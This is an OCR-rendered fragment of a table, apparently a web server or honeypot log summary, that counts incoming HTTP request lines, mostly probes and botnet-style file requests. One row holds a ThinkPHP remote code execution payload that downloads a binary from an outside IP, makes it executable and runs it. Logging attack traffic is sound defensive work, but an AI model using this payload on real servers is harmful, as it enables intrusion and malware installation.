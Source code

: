 |  65 |                     6 | GET /restore.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
|  66 |                     6 | \x10 \x00\x00BBBB\xBA\x8C\xC1\xABDAAA                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
|  67 |                     6 | GET /actuator/gateway/routes HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
|  68 |                     5 | GET /vqsjh4 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
|  69 |                     5 | GET /wheiuwa4 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
|  70 |                     5 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                                                                                                                                                                                                                                                                                                                                                             |
|  71 |                     5 | GET /Fantazy.m68k HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
|  72 |                     5 | GET /zmap.x86 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
|  73 |                     5 | GET /zmap.m68k HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |